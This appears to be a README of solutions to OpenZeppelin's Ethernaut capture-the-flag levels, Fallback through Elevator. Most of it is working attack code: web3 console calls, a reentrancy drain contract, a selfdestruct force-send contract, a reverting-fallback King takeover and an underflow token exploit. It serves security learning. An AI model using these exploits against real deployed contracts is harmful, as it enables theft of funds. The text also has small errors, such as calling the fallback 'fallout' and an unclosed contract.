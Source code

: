 # Solutions of OpenZeppelin's Ethernaut Challenges

## 1. Fallback

```
await contract.contribute({value: 1337 });
await contract.sendTransaction({value: 1337});
contract.withdraw();
```

## 2. Fallout

The problem here is that the contructor is misspelled.
Therefore, the function *Fal1out* can be called from another contract for claiming the target contract.

```
await contract.Fal1out({value: 1337});
contract.sendAllocation(await contract.owner());
```

## 3. Token

Here we are dealing with an integer overflow issue in the require statement of the transfer function. This statement is always true, because both data types are defined as uint:

```
 require(balances[msg.sender] - _value >= 0);
```

 Therefore, we are able to get (a lot of) tokens for free when sending tokens to an arbitrary address:

 ```
 await contract.balanceOf(web3.eth.defaultAccount); // 20
 await contract.transfer("0x7e260279a09fca029471185995c29dd7b293921f", 1337);
 await contract.balanceOf(web3.eth.defaultAccount); // much much more than 20 :)
```

## 4. Delegation

We are using the fallout function to delegate call to *pwn()*, which sets the msg.sender (attacker's wallet address) to owner.

 ```
 web3.sha3("pwn()");
 > "0xdd365b8b15d5d78ec041b851b68c8b985bee78bee0b87c4acf261024d8beabab"
 //effectively the first four bytes are: 0xdd365b8b

 await contract.sendTransaction({ data:"0xdd365b8b" });
```

## 5. Force

```
pragma solidity ^0.4.20;

contract Force {

 function Force() public payable {}

 function exploit(address _target) public {
    //_target address, which will receive Ethers
    selfdestruct(_target);
 }
}
```

# 6. King

The idea here is to create a contract with a reverting fallback function.

```
pragma solidity ^0.4.20;

contract King {

function King() public {}

function takeover(address _target) public payable {
//target King contract
_target.call.value(msg.value)();
}

function() public payable {
    revert();
}
```

# 7. Reentrancy

In memory of the good old DAO hack, we need to determine in which "recursion depth" we are (here variable *exploited* is used):

```
contract ExploitReentrancy {

  uint donated;
  Reentrance target;
  bool exploited = false;

  function ExploitReentrancy(address _target) public payable {
      target = Reentrance(_target);
      donated = msg.value;
      target.donate.value(msg.value)(address(this));
  }

  function exploit() public {
      target.withdraw(donated);
  }

  function() public payable {
    if (!exploited) {
        exploited = true;
        if (donated > target.balance) {
            target.withdraw(donated);
        } else {
            target.withdraw(target.balance);
        }
    }
  }

}
```

# 8. Elevator
The view modifier is not verified by the solidity compiler, therefore we can still change the state.

```
pragma solidity ^0.4.18;

interface Building {
  function isLastFloor(uint) view public returns (bool);
}

contract MalBuilding is Building {
  bool called = false;

  function isLastFloor(uint _floor) view public returns (bool) {
      //this contract works only once, but is sufficient for solving this excercise :)
      bool previous = called;
      called = true;
      return previous;
  }

  function exploit(address _target) public payable {
      Elevator elevator = Elevator(_target);
      elevator.goTo(1);
  }
}

contract Elevator {
  function goTo(uint _floor) public;
}
```
